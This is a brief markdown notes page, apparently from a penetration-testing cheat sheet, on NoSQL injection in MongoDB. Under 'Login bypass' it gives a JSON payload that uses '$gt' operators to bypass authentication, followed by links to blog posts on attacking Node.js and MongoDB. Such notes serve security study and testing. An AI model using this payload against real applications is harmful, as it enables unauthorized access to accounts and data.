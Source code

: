 # Nosql-Injections

Nosql-databases like MongoDB is becoming more and more common. So this needs to be expanded.

## Login bypass

Basically change the query to this.

```javascript
{"user":{"$gt": ""},"pass":{"$gt": ""}}
```

[http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html](http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html) [http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html](http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html)

